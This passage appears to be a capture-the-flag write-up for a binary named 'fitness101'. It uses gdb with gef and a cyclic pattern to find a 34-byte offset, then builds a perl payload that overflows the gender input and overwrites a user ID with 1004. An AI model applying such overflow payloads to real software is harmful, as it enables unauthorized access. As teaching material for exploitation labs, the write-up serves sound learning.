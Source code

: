 Now let's start
```
gef➤  start
gef➤  n (next: until you hit a breakpoint)
```

```
gef➤  c
Continuing.
Enter weight in kg: 3
Enter height in cm: 3
Enter age in years: 3
Enter gender (Male/Female): aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Breakpoint 1, 0x0000000000401472 in main ()

```

Okey we have hit our breakpoint, let's examine the content of `eax`, since it's the one storing our value
> We know that eax stores the value of user_id since  it is the one being compared to the value of 1004

```
gef➤  p $eax
$2 = 0x616a6161
```

hmm, we got the value `0x616a6161`

Let's now give the value to `cyclic`, to determine the offset.

```
┌──(yariss㉿Kali-VM)-[~/Desktop/fitness101]
└─$ cyclic -l 0x616a6161
34
```

Nice ! We need exactly 34 characters to reach our target.

#### crafting our payload

Remember that the program asks us for:
- weight
- height
- age
- gender

So we need to craft a payload that provides:
- number + new line
- number + new line
- number + new line
- our malicious payload (34 character + 1004 + new line)

We can use `perl` to generate the payload

```bash
perl -e 'print "3\n3\n3\n". "A"x34 . "\xec\x03\x00\x00" ."\n"' > payload
```
